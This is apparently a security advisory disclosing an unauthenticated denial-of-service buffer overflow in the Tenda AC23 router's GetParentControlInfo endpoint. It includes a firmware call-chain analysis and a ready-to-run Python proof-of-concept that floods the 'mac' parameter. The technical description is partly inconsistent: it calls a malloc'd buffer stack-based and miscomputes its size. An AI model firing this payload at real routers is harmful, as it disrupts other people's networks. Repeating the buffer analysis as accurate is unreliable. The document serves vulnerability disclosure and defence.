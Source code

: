# Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23 (AC23V1.0re_V16.03.07.52)  
## Overview
A stack-based buffer overflow vulnerability exists in the Tenda Wi-Fi 5 Router AC23 device running firmware version AC23V1.0re_V16.03.07.52. Due to insufficient restrictions on certain parameters and the lack of boundary checks in the `GetParentControlInfo` function, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack via parameters in the endpoint: `/goform/GetParentControlInfo` `sub_433CF4` `formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd. ([https://www.tenda.com.cn](https://www.tenda.com.cn))  
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)  
+ **Affected Product**: Tenda Wi-Fi 5 Router AC23 device  
+ **Affected Version**: AC23V1.0re_V16.03.07.52  
+ **Attack Vector**: Exploiting functions without boundary checks and with insufficient parameter restrictions, using carefully constructed payloads to cause a stack-based buffer overflow  
+ **Impact**:  
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/GetParentControlInfo`, `sub_433CF4`, `formDefineTendDa`  
+ **CVE ID**: Pending (CVE application in progress)  
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)  
+ **Firmware**: [https://www.tenda.com.cn/material/show/3889](https://www.tenda.com.cn/material/show/3889)

## Discovery
This vulnerability was discovered by analyzing the firmware (US_AC23V1.0re_V16.03.07.52_cn_TDC01.bin). The following call chain exists in the `squashfs-root/bin/httpd` file:  
`main → sub_433BE4 → formDefineTendDa → GetParentControlInfo`  

![main调用](Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23（AC23V1.0re_V16.03.07.52）.assets/main调用.png)

![formDefineTendDa1](Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23（AC23V1.0re_V16.03.07.52）.assets/formDefineTendDa1.png)

![formDefineTendDa2](Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23（AC23V1.0re_V16.03.07.52）.assets/formDefineTendDa2.png)

`s` is a buffer allocated via `malloc(0x254u)`, with a size of 0x254 bytes and initialized to all zeros. The target address is `s + 2`, meaning data copying starts from the 3rd byte of `s`, leaving 602 bytes of available space (604 - 2). `Var` is external input obtained via `websGetVar(a1, "mac", &unk_4DB6AC)` (a user-controllable "mac" parameter value). The `strcpy` function continuously copies characters from `Var` until a `\0` is encountered, without verifying if the target buffer can accommodate all data. As external input, `Var` may exceed 602 bytes in length.  

![溢出点](Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23（AC23V1.0re_V16.03.07.52）.assets/溢出点.png)

Thus, a carefully crafted payload at the interface path `/goform/GetParentControlInfo` can trigger a buffer overflow.  

## Steps to Reproduce
Construct the following payload using Python:  

```python
import requests  

# 构造溢出载荷  
def create_payload():  
    buffer_size = 512000  
    payload = b"A" * buffer_size  
    v11_value = b"\xef\xbe\xad\xde"  
    payload += v11_value  
    return payload  

# 构造 HTTP 请求并发送  
def send_payload(url, payload):  
    params = {'mac': payload}  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    print("Response status code:", response.status_code)  
    print("Response body:", response.text)  

if __name__ == "__main__":  
    # 目标 URL  
    url = "http://192.168.190.239/goform/GetParentControlInfo"  
    # 创建恶意载荷  
    payload = create_payload()  
    # 发送恶意请求  
    send_payload(url, payload)  
```

Use QEMU to emulate the `httpd` extracted from `US_AC23V1.0re_V16.03.07.52_cn_TDC01.bin` (note: this file is for the MIPS little-endian architecture; IDA must be used to modify `httpd` to adapt to the emulation environment).  

![patch](Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23（AC23V1.0re_V16.03.07.52）.assets/patch.png)

As shown in the figure below, emulation is successful.  

![payload](Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23（AC23V1.0re_V16.03.07.52）.assets/payload.png)

Use this script to trigger the stack overflow.  

![触发](Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23（AC23V1.0re_V16.03.07.52）.assets/触发.png)

## Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack via parameters in this endpoint.  
